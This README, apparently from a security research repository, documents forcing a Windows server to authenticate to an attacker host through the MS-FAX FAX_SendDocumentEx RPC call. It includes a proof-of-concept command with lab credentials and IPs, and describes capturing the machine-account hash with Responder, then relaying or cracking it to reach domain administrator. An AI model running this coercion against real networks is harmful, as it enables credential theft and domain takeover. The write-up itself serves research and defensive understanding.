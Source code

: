 # MS-FAX - Remote call to FAX_SendDocumentEx (opnum 27)

## Summary

 - **Protocol**: [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4)

 - **Protocol UUID**: 6099fc12-3eff-11d0-abd0-00c04fd91a4e

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\SHAREDFAX`

 - **Function name**: [`FAX_SendDocumentEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/bac2e95f-f18b-448f-bb42-cc63b6ff04b2)

 - **Function operation number**: `27`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\SHAREDFAX` and bind to the desired [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol (with uuid `6099fc12-3eff-11d0-abd0-00c04fd91a4e` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\SHAREDFAX` This pipe is connected to the protocol [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) and allows to call RPC functions of this protocol. We will then call the remote [`FAX_SendDocumentEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/bac2e95f-f18b-448f-bb42-cc63b6ff04b2) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
FAX_SendDocumentEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t FAX_SendDocumentEx(
   [in] handle_t hBinding,
   [in, string, unique] LPCWSTR lpcwstrFileName,
   [in] LPCFAX_COVERPAGE_INFO_EXW lpcCoverPageInfo,
   [in] LPBYTE lpcSenderProfile,
   [in, range(0,FAX_MAX_RECIPIENTS)] 
     DWORD dwNumRecipients,
   [in, size_is(dwNumRecipients)] LPBYTE* lpcRecipientList,
   [in] LPCFAX_JOB_PARAM_EXW lpJobParams,
   [in, out, unique] LPDWORD lpdwJobId,
   [out] PDWORDLONG lpdwlMessageId,
   [out, size_is(dwNumRecipients)] 
     PDWORDLONG lpdwlRecipientMessageIds
 );
```

## References

 - Documentation of protocol [MS-FAX]: Fax Server and Client Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4

 - Documentation of function `FAX_SendDocumentEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/bac2e95f-f18b-448f-bb42-cc63b6ff04b2